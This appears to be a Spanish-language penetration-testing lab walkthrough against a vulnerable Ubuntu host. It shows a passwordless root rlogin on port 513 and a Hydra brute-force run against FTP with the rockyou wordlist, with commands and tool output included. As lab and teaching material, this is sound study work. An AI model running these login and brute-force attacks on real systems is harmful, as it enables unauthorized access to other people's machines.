 ##### Ataque al puerto 513

Tenemos diferentes formas de ganar acceso a la máquina objetivo. La más simple es mediante el puerto 513 el cual está directamente abierto y podemos conectarnos a la máquina con el usuario root sin contraseña:

```bash
┌──(root㉿kali)-[~]
└─# rlogin -l root 198.0.2.6
Last login: Tue Oct 14 00:31:57 EDT 2025 from 198.0.2.4 on pts/1
Linux ui11 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@ui11:~# cat /var/log/syslog

Oct 14 00:31:56 ui11 in.rlogind[4793]: connect from 198.0.2.4 (198.0.2.4)
```

De este modo podemos acceder a la máquina y ver su información. Podemos ver que hay una conexión desde la 198.0.2.4 ya que hemos realizado **rlogin -l root 198.0.2.6**, si queremos que se almacene otra IP tendríamos que modificar nuestra interfaz de red para la conexión.

Para tratar de acceder a la máquina objetivo de otra forma a través de otros servicios vamos a realizar diferentes ataques de fuerza bruta sobre los puertos abiertos tanto con _nmap_ como con la herramienta _hydra_.

**Hydra** es una herramienta de código abierto usada en pruebas de penetración para realizar ataques de fuerza bruta y descubrir contraseñas en distintos servicios de red, como SSH, FTP, SMB, HTTP, MySQL, entre otros. Funciona probando sistemáticamente combinaciones de nombres de usuario y contraseñas, generalmente usando listas de palabras (diccionarios), hasta encontrar las credenciales válidas. Se destaca por su rapidez y capacidad de realizar múltiples intentos en paralelo, facilitando así la evaluación de la seguridad de sistemas mediante la simulación de ataques reales.

##### Ataque a ftp 21

Vamos a realizar un ataque al peurto 21 correspondiente al servicio ftp para el intercambio de archivos.

```bash
┌──(root㉿kali)-[~]
└─# hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt 198.0.2.6 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-14 07:56:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 129099591 login tries (l:9/p:14344399), ~8068725 tries per task
[DATA] attacking ftp://198.0.2.6:21/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 129099463 to do in 16809:50h, 16 active
...
```
